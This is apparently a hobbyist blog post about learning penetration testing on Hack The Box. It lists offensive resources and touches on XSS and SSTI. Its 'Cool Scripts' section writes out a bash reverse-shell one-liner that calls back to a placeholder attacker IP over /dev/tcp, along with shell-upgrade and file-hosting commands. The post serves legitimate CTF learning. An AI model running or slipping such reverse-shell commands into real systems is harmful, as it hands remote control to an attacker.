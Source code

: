 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now, so here is some of my thoughts and cool thing I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.

![encryption](/assets/img/hackthebox-owns.jpg){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun finishing them.
Let’s dive in!

### Very Useful Githubs

#### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. I have a long list of binaries made for common Unix tools for breaking out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have the gist of how to follow them.

#### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a super collection of a set of payloads for lots and lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without a Metasploit taught me a lot about how these things work. I do recommend trying this webpage before Metasploit if you are sure to know where exactly the vulnerability is.

#### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information of all the other ones and had everything color coded based on how critical they are. I LOVE THIS THING.


### Cool Scripts

#### Spawn a Bash Shell from a Python Environment
stuck in a Python shell?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

#### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

#### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

### Useful Websites

#### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt. I know you can always look at hashcat and john examples to try and find out what kind hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

#### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the compony to receive their bounty, they usually have very thorough and in depth guide on how to recreate or abuse the bug they have found.

#### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have know idea what your foothold is. Try reading the application manual. It always lists the set dependencies, privileges, default ports, etc. that can be later researched to find vulnerability in.

### Common Web Application Vulnerabilities

#### XSS

XSS is often ignore if the website isn’t and multiuser environment like social media. Since it is mostly used to stead data from other users, but you can still use XSS to grab admin passwords of websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

#### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as show below. It so quick to do its almost always worth a try.

![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

### Linux Tools I Did'nt Know Exist But I Ended Up Using A lot

#### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

#### netpgp
Got a encrypted file?


### Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-error}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.

